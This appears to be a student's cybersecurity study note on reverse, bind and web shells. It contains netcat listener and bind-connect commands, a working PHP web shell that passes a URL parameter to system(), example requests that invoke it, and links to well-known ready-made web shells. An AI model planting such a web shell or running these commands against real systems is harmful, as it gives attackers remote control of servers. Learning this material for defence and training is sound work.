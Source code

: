 ```yaml
---
sr-due: 2025-05-02
sr-interval: 16
sr-ease: 170
---
```


#review 

Shells are commonly used in cybersecurity to remotely control systems. 

## Shell Overview

A shell is a software that allows us to interact with an OS. In cybersecurity, it is common to refer to a specific shell session an attacker uses when accessing a compromised system. This will allow attacker to execute several different activities such as:

- Remote System Control
- Privilege Escalation
- Data Exfiltration
- Persistence and Maintaining Access
- Post Exploitation Activities
- Access Other System on the Network

## Reverse Shell

Also referred to as a connect back shell is one of the most popular techniques for gaining access to a system in a cyber attack. The connections initiate from the target system to the attacker's machine which helps avoid detection from security appliances.

### How Reverse Shells Work

**Set up a Netcat (nc) Listener**

```
nc -lvnp 443
```

<span style="color:rgb(255, 192, 0)">-l</span> listen
<span style="color:rgb(255, 192, 0)">-v</span> verbose
<span style="color:rgb(255, 192, 0)">-n</span> does not resolve DNS name
<span style="color:rgb(255, 192, 0)">-p</span> port

**Gaining Reverse Shell Access**

Once listener is set up, the attacker will then execute a reverse shell payload. This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will expose the shell through the network.

**Attacker Receives the Shell**

Once the above payload is executed, the attacker will receive a reverse shell, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

## Bind Shell

Binds is;; a port on the compromised system and listen for a connection. When the connection occurs it exposes the shell session so the attacker can execute commands remotely.

This method can be used when outbound connections are not allowed but is less popular than reverse shell because it needs to remain active and listen for detections which can lead to detection

### How Bind Shells Work

**Set Up the Bind Shell on the Target**

Create a bind shell payload. Ports below 1024 need to be executed with elevated privileges so use a port higher than that. 

**Attacker Connects to the Bind Shell**

```
nc -nv TARGET_IP 8080
```

## Shell Listeners

- **Rlwrap** a small utility that uses the GNU readline library to provide editing keyboard and history.
- **Ncat**  is an improved version of Netcat distributed by the NMAP project. It provides extra features, like encryption (SSL).
- **Socat** allows you to create a socket connection between two data sources, in this case, two different hosts.
	- A socket connection is a software endpoint that enables two programs on a network to communicate, acting as a virtual "doorway" for data exchange



## Shell Payloads

A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

## Web Shell

A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. A web shell is usually a file containing the code that executes commands and handles files. It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.

### Example PHP Web Shell


```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```


The shell can be saved into a file with the PHP extension, like shell.php, and then uploaded into the web server by the attacker by exploiting vulnerabilities such as **Unrestricted File Upload, File Inclusion, Command Injection**, among others, or by gaining unauthorized access to it. 

After the web shell is deployed in the server, it can be accessed through the URL where the web shell is hosted, in this example http://victim.com/uploads/shell.php. As we observed from the code in shell.php, we need to provide a GET method and the value of the variable cmd, which should contain the command the attacker wants to execute. For example, if we want to execute the command whoami the request to the URL should be:
http://victim.com/uploads/shell.php?cmd=whoami

### Existing Web Shells Available Online

[p0wny-shell](https://github.com/flozz/p0wny-shell) - A minimalistic single-file PHP web shell that allows remote command execution
[b374k shell](https://github.com/b374k/b374k) - A more feature-rich PHP web shell with file management and command execution, among other functionalities
[c99 shell](https://www.r57shell.net/single.php?id=13) - A well-known and robust PHP web shell with extensive functionality
You can find more web shells at: [https://www.r57shell.net/index.php](https://www.r57shell.net/index.php).


http://10.10.142.153:8082/uploads/shell.php?cmd=whoami